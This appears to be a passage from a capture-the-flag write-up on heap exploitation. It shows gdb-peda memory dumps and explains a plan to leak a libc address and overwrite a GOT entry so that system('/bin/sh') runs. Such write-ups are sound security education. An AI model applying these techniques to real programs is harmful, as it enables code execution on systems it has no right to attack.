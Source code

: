 [------------------------------------stack-------------------------------------]
0000| 0xffb9fbd0 --> 0x80 
0004| 0xffb9fbd4 --> 0x0 
0008| 0xffb9fbd8 --> 0x0 
0012| 0xffb9fbdc --> 0x8048659 (<main+126>:	mov    eax,DWORD PTR [ebp-0x18])
0016| 0xffb9fbe0 --> 0x1 
0020| 0xffb9fbe4 --> 0x1 
0024| 0xffb9fbe8 --> 0x8858118 --> 0x0 
0028| 0xffb9fbec --> 0x2ed01100 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x08048669 in main ()
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0x804a0b8
{% endhighlight %}

## Infoleaks
Now that we have successfully forced `malloc()` to return an arbitrary pointer in the middle of the `tmp` global, we need to leverage this somehow to get code execution.

Because this is a dynamically linked binary, we already have the `system()` function loaded into memory from libc.

Also, remember that only partial RELRO is enabled, which allows us to perform a GOT overwrite and force one of the GOT entires to inappropriately call `system()` while passing in a pointer to the string `"/bin/sh\0"`.

In order to do this though, we first need to get an infoleak in order to get the base address of libc so that we can dynamically resolve the address of `system@libc`, which changes everytime the process starts, due to ASLR.

If we examine what our **.got.plt** and **.bss** sections look like right now, after our House of Einherjar `malloc()` has finished and the pointer to our newly malloc'd chunk has been placed in the `ptr[]` global array, we will see the following.

{% highlight bash %}
gdb-peda$ x/68xw 0x804a000
0x804a000:	0x08049f14	0xf773e938	0xf77314f0	0xf7594280
0x804a010:	0xf75bdc60	0xf75ae4a0	0xf75aab20	0xf75bd6b0
0x804a020:	0xf75ac650	0xf7560990	0xf75acd30	0xf759cf40
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040 <stdin@@GLIBC_2.0>:	0xf76f1c20	0xf76f1ac0	0x00000000	0x00000004
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060 <tmp>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070 <tmp+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <tmp+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090 <tmp+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0 <tmp+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0 <tmp+80>:	0x00000000	0x00000089	0xf76f1548	0xf76f1548
0x804a0c0 <tmp+96>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0 <tmp+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0 <ptrs>:	0x09a89008	0x00000000	0x09a89118	0x0804a0b8
0x804a0f0 <ptrs+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100 <ptrs+32>:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}
